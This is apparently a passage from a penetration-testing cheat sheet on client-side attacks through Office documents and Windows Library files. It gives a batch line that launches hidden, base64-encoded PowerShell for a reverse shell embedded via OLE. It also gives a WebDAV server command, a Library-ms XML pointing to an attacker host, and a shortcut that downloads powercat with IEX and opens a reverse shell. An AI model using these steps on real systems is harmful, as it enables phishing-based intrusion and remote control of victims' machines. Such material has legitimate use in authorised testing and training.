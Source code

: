 4. Open the document in Word, go in `View` > `Macros` and create a macro with the code generated in the previous step
   - Select the current document in `Macros in:`

**Object Linking and Embedding**: another option is to abuse Dynamic Data Exchange (DDE) to execute arbitrary applications from within Office documents ([patched since December of 2017](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/ADV170021))

1. Create a batch script to run a reverse shell
   ```batch
   START powershell.exe -nop -w hidden -e <BASE64>
   ```
2. Open Microsoft Word > Create a new document > Navigate to the Insert ribbon > Click the Object menu
3. Choose "Create from File" tab and select the newly-created batch script
4. Change the appearance of the batch file

**Evading Protected View**: In exactly the same way as Word and Excel, Microsoft Publisher permits embedded objects and ultimately code execution, but it will not enable Protected View for documents that are distributed over the Internet.

## Windows Library Files

Library files consist of three major parts written in XML to specify the parameters for accessing remote locations:
- General library information
- Library properties
- Library locations

1. Run a WebDAV share in the attacker machine
   - `/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/WebDAV/`
2. Create the following Windows Library File in a Window machine
   <br/><i>config.Library-ms</i>
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
   
   	<name>@windows.storage.dll,-34582</name>
   	<version>6</version>
   
   	<isLibraryPinned>true</isLibraryPinned>
   	<iconReference>imageres.dll,-1003</iconReference>
   	
   	<templateInfo>
   		<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
   	</templateInfo>
   	
   	<searchConnectorDescriptionList>
   		<searchConnectorDescription>
   			<isDefaultSaveLocation>true</isDefaultSaveLocation>
   			<isSupported>false</isSupported>
   			<simpleLocation>
   				<url>http://IP</url>
   			</simpleLocation>
   		</searchConnectorDescription>
   	</searchConnectorDescriptionList>
   
   </libraryDescription>
   ```
3. In a Window machine, create a shortcut ( <i>automatic_configuration.lnk</i> ) with the following as location
   - `powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>/powercat.ps1');powercat -c <IP> -p <PORT> -e powershell"`
4. Put `config.Library-ms` and `automatic_configuration.lnk` in the WebDAV directory